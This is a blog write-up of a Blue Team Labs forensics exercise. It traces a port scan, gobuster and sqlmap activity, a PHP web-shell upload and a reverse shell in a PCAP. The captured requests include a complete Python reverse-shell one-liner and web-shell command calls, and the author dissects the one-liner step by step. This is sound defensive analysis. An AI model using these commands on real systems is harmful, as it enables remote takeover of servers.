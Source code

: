 ```yaml
---
draft: false
author: ladybuginthemug
title: Web shell - network analysis 
description: The SOC received an alert in their SIEM for ‘Local to Local Port Scanning’ where an internal private IP began scanning another internal system. 
date: 2024-01-06
category:
  - blueteamlabs
---
```


>Scenario
>
>The SOC received an alert in their SIEM for ‘Local to Local Port Scanning’ where an internal private IP began scanning another internal system. Can you investigate and determine if this activity is malicious or not? You have been provided a PCAP, investigate using any tools you wish.

My usual approach is to move back and forth from general statistics to a close-up investigation of streams. 

#### PORT SCANNING 

So I would start with **Statistics** -> **Endpoints** -> **TCP**.  By sorting ports we can instantly identify port incrementation which is an indication of the port scanning.

![ports-last](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/64ed0c5d-ed6f-4bb3-ad10-a3d81182d0c5)


The stream reveals that `10.251.96.4` is the IP responsible for conducting the `TCP SYN` port scan activity in the port range of `1-1024`

![TCPSYNscan](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/5c3f9638-fb2e-40e2-af00-aaf537610f87)


Surly enough we would be able to find more automation tools around. Simple search for user agents with `tshark` :

```
└─$ tshark -r BTLOPortScan.pcap -Y "http.user_agent" -T fields -e http.user_agent | sort -u
Apache/2.4.29 (Ubuntu) (internal dummy connection)
gobuster/3.0.1
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.146 Safari/537.36
Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
sqlmap/1.4.7#stable (http://sqlmap.org)

```
It will reveal the tools used which are `Gobuster 3.0.1`


![gobuster](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/c2578128-05ad-4ecb-be9d-5fc636077665)


and `sqlmap 1.4.7`


![sql](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/12fab041-a8b6-46f6-a133-08a75a89bd0b)


---
#### FILE UPLOAD


**Export objects** -> **HTTP** 

![upload](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/71bdf96f-fb65-420e-af04-7efa4d6273e1)


The attacker used `editprofile.php` to upload a web shell `dbfunctions.php`:  

```
"16102","2021-02-07 16:40:39.693318843","10.251.96.4","10.251.96.5","HTTP","1087","POST /upload.php HTTP/1.1  (application/x-php)"
"16106","2021-02-07 16:40:43.892078780","10.251.96.4","10.251.96.5","HTTP","433","GET /uploads/ HTTP/1.1 "
"16110","2021-02-07 16:40:43.925237417","10.251.96.4","10.251.96.5","HTTP","401","GET /icons/unknown.gif HTTP/1.1 "
"16115","2021-02-07 16:40:43.928118120","10.251.96.4","10.251.96.5","HTTP","400","GET /icons/image2.gif HTTP/1.1 "
"16121","2021-02-07 16:40:45.168306955","10.251.96.4","10.251.96.5","HTTP","486","GET /uploads/dbfunctions.php HTTP/1.1 "
```
![webshell](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/49fdf490-a307-4820-a55d-1164ebff6bc9)


We can spot first commands used in the web shell :

```
"16134","2021-02-07 16:40:51.125681644","10.251.96.4","10.251.96.5","HTTP","455","GET /uploads/dbfunctions.php?cmd=id HTTP/1.1 "
"16144","2021-02-07 16:40:56.263731727","10.251.96.4","10.251.96.5","HTTP","459","GET /uploads/dbfunctions.php?cmd=whoami HTTP/1.1 "
"16201","2021-02-07 16:42:35.675646891","10.251.96.4","10.251.96.5","HTTP","706","GET /uploads/dbfunctions.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.251.96.4%22,4422));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27 HTTP/1.1 "
```

The last request is trying to exploit a vulnerability in the server by injecting a Python one-liner that establishes a reverse shell connection to the specified IP and port in the following steps:

- Imports the socket, subprocess, and os modules.
```
python -c import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
```
- Creates a socket and connects to the IP address 10.251.96.4 on port 4422.
```
s.connect(("10.251.96.4",4422));
```
- Duplicates the socket's file descriptor to the standard input (0), standard output (1), and standard error (2).
```
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);
```
- Calls /bin/sh (a shell) with the -i flag, which starts an interactive shell.

```
p=subprocess.call(["/bin/sh","-i"]);
```

---

#### SHELL CONNECTION

![shell-python](https://github.com/ladybuginthemug/ladybuginthemug.github.io/assets/88084724/52058542-85ec-48c7-b96f-916ca5739572)


Following tcp stream on port 4422, we can confirm that the reverse shell connection is established. 

The attempts to escalate privileges appear to have been made by executing commands such as `python -c 'import pty; pty.spawn("/bin/bash")'` and `bash -i`. These commands are commonly used to attempt to gain a more interactive shell or elevate privileges.

However, there is no explicit indication in the log that these privilege escalation attempts were successful. The user continues to operate with the same username `www-data` and there are no indications of a change in privileges or access to restricted areas of the file system.

